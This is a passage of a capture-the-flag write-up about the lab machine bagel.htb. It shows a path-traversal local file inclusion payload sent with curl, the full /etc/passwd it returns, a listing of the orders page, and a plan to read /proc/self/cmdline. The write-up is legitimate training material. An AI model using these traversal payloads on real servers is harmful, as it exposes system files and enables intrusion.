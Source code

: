 The interesting parameter here was the URL, which was `http://bagel.htb/?page=index.html`. LFI works here and I can view the `/etc/passwd` file.

```
$ curl http://bagel.htb:8000/?page=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

The users are `phil` and `developer`. There's an orders page with the previous orders made.

```
$ curl http://bagel.htb:8000/orders                         
order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]
order #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]
order #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels]
```

Not too sure what to make of the orders, but at least we have an LFI. `gobuster` revealed no other directories of interest. Since we have no other information of the file system in the machine, we can view the `/proc/self/cmdline` file to view the processes that are running.
